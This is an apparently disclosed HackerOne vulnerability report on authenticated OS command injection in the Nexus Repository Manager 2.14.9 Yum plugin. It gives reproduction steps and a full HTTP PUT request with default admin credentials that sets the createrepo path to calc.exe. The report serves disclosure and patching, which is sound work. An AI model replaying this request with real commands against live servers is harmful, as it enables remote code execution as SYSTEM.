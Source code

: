 # OS Command Injection in Nexus Repository Manager 2.x

## Report Details
- **Report ID**: 654888
- **URL**: https://hackerone.com/reports/654888
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-07-23T13:53:43.592Z
- **Disclosed**: 2019-08-20T19:55:59.714Z

## Reporter
- **Username**: christianaugust
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: central-security-project

## Vulnerability Information
# Maven artifact
**groupId:** org.sonatype.nexus.plugins
**artifactId:** nexus-yum-repository-plugin
**version:** 2.14.9-01

# Vulnerability
## Vulnerability Description
The Nexus Yum Repository Plugin is vulnerable to Remote Code Execution. All instances using CommandLineExecutor.java with user-supplied data is vulnerable, such as the Yum Configuration Capability. 

## Additional Details
**Source File and Line Number:** https://github.com/sonatype/nexus-public/blob/release-2.14.9-01/plugins/yum/nexus-yum-repository-plugin/src/main/java/org/sonatype/nexus/yum/internal/capabilities/YumCapability.java#L121

## Steps To Reproduce:
1. Navigate to "Capabilities" in Nexus Repository Manager.
2. Edit or create a new Yum: Configuration capability
3. Set path of "createrepo" or "mergerepo" to an OS command (e.g. C:\Windows\System32\calc.exe)
4. The OS command should now have executed as the SYSTEM user. Note that in this case, Nexus appends --version to the OS command.

The following HTTP request was used to trigger the vulnerability:
```
PUT /nexus/service/siesta/capabilities/000013ea3743a556 HTTP/1.1
Host: HOST:PORT
Accept: application/json
Authorization: Basic YWRtaW46YWRtaW4xMjM=
Content-Type: application/xml
Content-Length: 333
Connection: close

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<ns2:capability xmlns:ns2="http://sonatype.org/xsd/nexus-capabilities-plugin/rest/1.0"><id>healthcheck</id><notes>123</notes><enabled>true</enabled><typeId>1</typeId><properties><key>createrepoPath</key><value>C:\Windows\System32\calc.exe</value></properties></ns2:capability>
```
## Supporting Material/References:
- Windows Server 2016
- Sonatype Nexus Repository Manager 2.14.9-01
- Java 8

# Wrap up
- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

An authenticated user with sufficient privileges in a Nexus Repository Manager installation can exploit this to execute code on the underlying operating system.

## Attachments
- nexus-rce-poc.mov

